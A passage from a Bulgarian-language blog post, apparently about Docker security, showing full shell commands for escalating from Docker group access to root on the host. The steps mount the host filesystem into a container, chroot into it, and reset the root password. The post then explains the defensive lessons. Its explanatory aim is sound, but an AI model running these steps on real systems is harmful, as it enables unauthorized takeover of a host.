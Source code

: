 Можем да сменим паролата и по друг начин, ако не ни се пипа директно в `/etc/shadow`. Да закачим цялата файлова система на хоста като volume в контейнера:

```sh
root@8527c0fa48ad:/# docker run -it -v /:/host-root debian:latest bin/bash
root@e408da377f10:/# ls /host-root
bin   data  etc   initrd.img	  lib	 lib64	     media  opt   root	sbin  srv  tmp	var	 vmlinuz.old
boot  dev   home  initrd.img.old  lib32  lost+found  mnt    proc  run	snap  sys  usr	vmlinuz
```

След това можем да използваме `/host-root` като root директорията за подпроцес...

```sh
root@e408da377f10:/# chroot /host-root

# ls /
bin   data  etc   initrd.img	  lib	 lib64	     media  opt   root	sbin  srv  tmp	var	 vmlinuz.old
boot  dev   home  initrd.img.old  lib32  lost+found  mnt    proc  run	snap  sys  usr	vmlinuz
```

...след което да сменим паролата с `passwd`:

```sh
# passwd
Enter new UNIX password: haxxored
Retype new UNIX password: haxxored
passwd: password updated successfully
```

Негативът на този подход е, че стана прекалено лесно.

# Последствия

Какво ни интересува това? Няколко неща:

- Всеки, който е в Docker групата е, на практика, `root` на сървъра. Ако мога да пускам контейнери, значи имам пълен достъп до хоста.
- Контейнер, който изисква mount на docker сокета може да бъде ефективен вход за атака. Хубаво е такива да са максимално изолирани от външния свят.
- Ако човек получи неправомерен достъп да променя оригиналния image (например `debian:latest`, `node:latest` или подобен) може да получи достъп до всичко, което го използва.

Нито един сървър не беше наранен по време на писането на този пост.
